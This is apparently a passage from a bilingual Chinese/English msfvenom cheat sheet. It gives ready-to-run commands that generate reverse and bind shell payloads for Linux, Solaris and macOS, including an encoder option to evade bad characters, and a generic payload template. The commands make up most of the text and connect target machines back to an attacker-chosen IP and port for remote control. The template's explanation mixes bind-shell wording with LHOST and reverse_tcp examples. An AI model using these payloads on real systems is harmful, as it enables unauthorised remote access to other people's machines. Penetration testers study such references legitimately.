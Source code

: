 生成的有效载荷文件可以在目标系统上执行，以建立与攻击者的连接。这样，攻击者就可以通过该连接执行各种操作，包括远程执行命令、上传/下载文件等。
```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
### SunOS（Solaris）

SunOS is a Unix-based operating system developed by Sun Microsystems, which is now owned by Oracle Corporation. Solaris is the commercial version of SunOS and is widely used in enterprise environments.

SunOS（Solaris）是由Sun Microsystems开发的基于Unix的操作系统，现在由Oracle Corporation拥有。Solaris是SunOS的商业版本，在企业环境中被广泛使用。
```bash
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
## **MAC 载荷**

### **反向 Shell：**

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho > shell.macho
```

This command generates a Mach-O binary payload for macOS that establishes a reverse shell connection to the specified IP address and port. The payload is saved as a file named `shell.macho`.

该命令生成一个用于 macOS 的 Mach-O 二进制载荷，用于与指定的 IP 地址和端口建立反向 shell 连接。载荷将保存为名为 `shell.macho` 的文件。

### **Bind Shell:**

```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f macho > shell.macho
```

This command generates a Mach-O binary payload for macOS that listens for incoming connections on the specified IP address and port. When a connection is established, a shell is spawned. The payload is saved as a file named `shell.macho`.

该命令生成一个用于 macOS 的 Mach-O 二进制载荷，用于在指定的 IP 地址和端口上监听传入连接。当建立连接时，将生成一个 shell。载荷将保存为名为 `shell.macho` 的文件。
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
A bind shell is a type of shell that listens for incoming connections on a specific port. Once a connection is established, the bind shell provides a command-line interface to interact with the target system. This technique is commonly used in remote administration and hacking scenarios.

To create a bind shell payload using `msfvenom`, you can use the following command:

```plaintext
msfvenom -p <payload> LHOST=<local IP> LPORT=<port> -f <format> -o <output file>
```

- `<payload>`: The payload to use, such as `windows/meterpreter/reverse_tcp` or `linux/x86/shell/bind_tcp`.
- `<local IP>`: The IP address of your machine where the bind shell will listen for incoming connections.
- `<port>`: The port number on which the bind shell will listen.
- `<format>`: The desired output format, such as `exe`, `elf`, or `raw`.
- `<output file>`: The name of the output file where the bind shell payload will be saved.
